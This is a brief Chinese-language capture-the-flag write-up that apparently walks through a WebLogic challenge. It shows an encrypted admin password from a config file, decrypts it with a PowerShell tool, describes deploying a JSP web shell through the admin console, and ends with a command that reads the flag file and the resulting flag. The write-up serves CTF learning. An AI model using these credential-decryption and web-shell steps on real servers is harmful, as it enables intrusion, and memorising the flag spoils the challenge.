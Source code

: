 拿到的密文：

```xml
    <node-manager-username>weblogic</node-manager-username>
    <node-manager-password-encrypted>{AES}9VgweUmigT7OjfK/quYRTd947tkcRiSnnQ1qxe1Sp/c2rUwn65ISTNaLPLxE9xLU</node-manager-password-encrypted>
```

利用解密工具解密文：

```powershell
Invoke-WebLogicPasswordDecryptor -SerializedSystemIni "$CUMTCTF\dat.dat" -CipherText "{AES}9VgweUmigT7OjfK/quYRTd947tkcRiSnnQ1qxe1Sp/c2rUwn65ISTNaLPLxE9xLU"
# result => TheoyuSaysY0uAreRight
```

登录后台，直接部署木马，可选蚁剑JSP马或者JSP大马，个人部署了大马，然后直接连之，拿Flag。

```html
Execute Shell »
Parameter
cat /sorry_about_the_mistake
-----------------------------------------------------------
CUMTCTF{821sjfoi2h08h12t01t0hg23g2hg2}
```



